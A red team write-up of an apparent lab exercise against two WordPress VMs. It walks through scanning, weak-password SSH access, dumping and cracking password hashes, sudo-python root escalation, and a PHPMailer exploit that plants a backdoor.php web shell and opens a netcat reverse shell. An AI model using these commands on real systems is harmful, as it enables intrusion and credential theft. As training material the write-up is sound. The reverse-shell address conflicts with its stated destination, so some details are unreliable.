# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.0013s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
$ nmap -sV 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.0016s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This scan identifies the services below as potential points of entry:
- Target 1

| Port     | Service      | Service Description and Version              |
|----------|--------------|----------------------------------------------|
| 22/tcp   | ssh          | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) |
| 80/tcp   | http         | Apache httpd 2.4.10 ((Debian))               |
| 111/tcp  | rpcbind      | 2-4 (RPC #100000)                            |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
| 445/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

- Target 2
| Port     | Service      | Service Description and Version              |
|----------|--------------|----------------------------------------------|
| 22/tcp   | ssh          | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) |
| 80/tcp   | http         | Apache httpd 2.4.10 ((Debian))               |
| 111/tcp  | rpcbind      | 2-4 (RPC #100000)                            |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
| 445/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

The following critical and high vulnerabilities were identified on each target:

- Target 1

| Service                                       | Severity | CVE             |
|-----------------------------------------------|----------|-----------------|
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 10.0     | [CVE-2001-0554](https://vulners.com/cve/CVE-2001-0554) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 8.5      | [CVE-2015-5600](https://vulners.com/cve/CVE-2015-5600) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 7.5      | [CVE-2020-16088](https://vulners.com/cve/CVE-2020-16088) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5      | [CVE-2021-26691](https://vulners.com/cve/CVE-2021-26691) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7679](https://vulners.com/cve/CVE-2017-7679) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7668](https://vulners.com/cve/CVE-2017-7668) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3169](https://vulners.com/cve/CVE-2017-3169) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3167](https://vulners.com/cve/CVE-2017-3167) |

`nmap -sV –script vulners –script-args mincvss=7.0 192.168.1.110`

[Results of nmap scan Target 1](nmap_target1_vulscan.txt)

`nmap -sV –script vulners –script-args mincvss=7.0 192.168.1.115`

[Results of nmap scan on Target 2](nmap_target2_vulscan.txt)

### Exploitation

The Red Team was able to penetrate `Target 1` and `Target 2` and retrieve the following confidential data:
- Target 1
  - `flag1 is in /var/www/html/service.html`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Exploited weak password
    - **Exploit Commands**
         - Found a list of WordPress users (michael and steven) by running wpscan's enumerate users:
           `wpscan –url http://example.com –enumerate u`
          [wpscan results](Target1/wpscan_user_enumerate.txt)
         - The user michael had an obvious password "michael" on both his WordPress and Target1 accounts
         - Logged in as michael and used grep to find flag1 inside /var/www/html/service.html
            - `ssh michael@192.168.1.110`
            
            - `cd /var/www/html`
            - `grep -r flag1 *`
            
  - `/var/www/flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Exploited weak password (same exploit as in flag 1)
    - **Exploit Commands**
      - Used find to find flag2.txt
      - `cd /`
      - `find . -name flag\* 2>/dev/null`
      - `cat /var/www/flag2.txt`            
      
  - `flag3 is in mySQL database`: afc01ab56b50591e7dcc93122770cd2
    - **Exploits Used**
      - Exploited weak password (same exploit as in flag 1)
      - Exploited poorly set file permissions on WordPress configuration file
    - **Exploit Commands**
      - Found WordPress configuration file:
        
      - Accessed database login credentials from WordPress configuration file:
        
      - Created a mySQL dump of WordPress database and filtered it with grep (results show flag3 and flag4):
        `mysqldump -uroot -p"R@v3nSecurity" wordpress | grep --color flag`
        
        
  - `/root/flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploits Used**
      - Exploited weak password of michael (same exploit as in flag 1)
      - Exploited poorly set file permissions on WordPress configuration file (same exploit as in flag 3)
      - Brute force cracking of password of steven
      - Priviledge escalation to root
    - **Exploit Commands**
       - Logged in as michael (same exploit used in flag 1, 2, and 3)
       - Using the WordPress database credentials as in flag 3, found list of tables in the database:
         `show tables`
         
       - Examined wp_users table schema and contents:
         `describe wp_users`
       - Examined relevant wp_users contents:  
          `select user_login, user_pass from wp_users;`
          
       - Exfiltrated table contents: [wp_users.csv](Target1/wp_users.csv)
          ```
          select user_login, user_pass from wp_users
          INTO OUTFILE '/tmp/wp_users.csv'
          FIELDS TERMINATED BY ','
          ENCLOSED BY '"'
          LINES TERMINATED BY '\n'
          ;
          quit
          ```
          ```
          cat /tmp/wp_users.csv
          exit
          scp michael@192.168.1.110:/tmp/wp_users.csv .
          ```
          
       - Renamed file to passwd and ran john the cracker: steven's password is "pink84"
         `john passwd`
         
       - Logged in as steven and found steven's sudo priviledges allow him to run /usr/bin/python as root:
         ```
         ssh steven@192.168.1.110
         sudo -l
         ```
         steven_has_sudo_python_access.JPG)
       - Escalated priviledge to root and found flag:
         ```
         sudo /usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
         cd /root
         ls
         cat *.txt
         ```
         
- Target 2
  - `flag1 is in http://192.168.1.115/vendor/PATH`: a2c1f66d2b8051bd3a5874b5b6e43e21
    - **Exploit Used**
      - Flag left in publicly web-accessible file
    - **Exploit Commands**
         - Run gobuster to create a list of URLs on Target 2:
         
           `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u 192.168.1.115 | tee gobuster_results.txt`
          [gobuster_results.txt](Target2/gobuster_results.txt)
           
         - Open http://192.168.1.115/vendor/PATH in web browser:
         
           
  - `/var/www/flag2.txt`: 6a8ed560f0b5358ecf844108048eb337
    - **Exploit Used**
      - Exploiting PHPMailer CVE-2016-10033

    - **Exploit Commands**
         - In the search for flag1, I noticed that the directory http://192.168.1.115/vendors/ had a file called class.phpmailer.php. So I ran searchsploit to look for exploits of that file. Notably it found the [exploits/php/webapps/40970.php](https://www.exploit-db.com/exploits/40970)
         
         
         - Modified the bash script [`exploit.sh`](Target2/exploit.sh) to include IP address 192.168.1.115 in variable TARGET
         - Run the exploit to upload the backdoor.php file to 192.168.1.115:

         
         
         - Test that the backdoor.php script was correctly uploaded and run by asking it to fetch the /etc/passwd file by going to http://192.168.1.115/backdoor.php?cmd=cat%20/etc/passwd:

         
         
         - Start a netcat listener: 
         
         `nc -lnvp 4444`
         
         - Run the backdoor.php script (http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.115%204444%20-e%20/bin/bash) to open a shell from Target 2 to the Kali VM by passing it the command `nc 192.168.1.115 4444 -e /bin/bash`:
         
         
         
         - flag2.txt is found in /var/www:
         
         ```
         cd /var/www
         ls
         cat flag2.txt
         ```
         
         
  - `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`: 6a8ed560f0b5358ecf844108048eb337
    - **Exploit Used**
      - Exploiting PHPMailer CVE-2016-10033
    - **Exploit Commands**
         - While the ncat connection is still open from the previous step, find flag files:
         
         ```
         cd /var/www/html/wordpress/wp-content/uploads
         find . -name flag\*
         ```     
         
         
         - View the image file at http://192.168.1.115/wordpress/wp-content/uploads/wp-content/uploads/2018/11/flag3.png
         
         
